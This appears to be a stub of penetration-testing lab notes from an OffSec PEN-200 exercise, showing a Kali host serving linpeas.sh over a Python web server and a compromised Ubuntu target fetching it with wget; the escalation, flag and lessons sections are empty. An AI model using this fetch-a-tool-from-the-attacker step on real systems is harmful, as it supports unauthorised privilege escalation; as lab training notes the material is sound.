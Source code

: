 ```shell
Description:	Ubuntu 16.04.6 LTS
Release:	16.04
Codename:	xenial
alfred@break:~$ 
```
#transfered #linpeas
```shell
┌──(root㉿kali)-[/home/kali/Documents/offsec_labs_pen200/10.11.1.101]
└─# ls               
linpeas.sh
                                                                          
┌──(root㉿kali)-[/home/kali/Documents/offsec_labs_pen200/10.11.1.101]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.11.1.101 - - [31/Mar/2023 19:51:13] "GET /linpeas.sh HTTP/1.1" 200 -

# pulled over linpeas
alfred@break:/tmp$ wget http://192.168.119.132/linpeas.sh
linpeas.sh                    100%[==============================================>] 808.68K  1.30MB/s    in 0.6s 
```
##### Foothold Enumeration Windows

```SHELL
```
##### Privilege Escalation
```shell
```

##### Flag
```powershell
```


###### Lessons Learned:








